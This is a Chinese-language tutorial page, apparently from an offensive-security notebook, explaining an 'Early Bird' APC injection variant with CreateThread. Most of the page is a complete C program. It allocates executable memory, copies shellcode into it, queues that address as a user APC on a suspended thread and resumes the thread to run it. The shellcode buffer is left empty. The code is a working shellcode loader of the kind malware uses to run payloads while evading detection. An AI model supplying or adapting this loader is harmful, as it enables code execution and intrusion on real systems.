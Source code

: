 # Early Bird & CreateThread or CreateRemoteThread

在前面的[Early Bird](early-bird.md)篇我们知道，在恢复挂起线程时程序会调用NtTestAlert函数对APC队列进行处理，试想，我们在进程内创建一个挂起的线程，然后往这个线程内插入用户apc，随后恢复进程，是不是同样可以在进程执行入口点前接管进程?

## 实现思路

1. 创建一个挂起的线程
2. 写入shellcode
3. 插入apc队列
4. 恢复线程

## 代码实现

```text
#include<Windows.h>
#include<stdio.h>

char shellcode[] = 
"";

int main() {

	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD ProcessId = 0;
	LPVOID AllocAddr = NULL;


	hProcess = GetCurrentProcess();
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(shellcode) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, shellcode, sizeof(shellcode) + 1, 0);


	hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)0xfff, 0, CREATE_SUSPENDED, NULL);

	QueueUserAPC((PAPCFUNC)AllocAddr, hThread, 0);
	ResumeThread(hThread);
	WaitForSingleObject(hThread,INFINITE);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

![](../.gitbook/assets/image%20%2822%29.png)

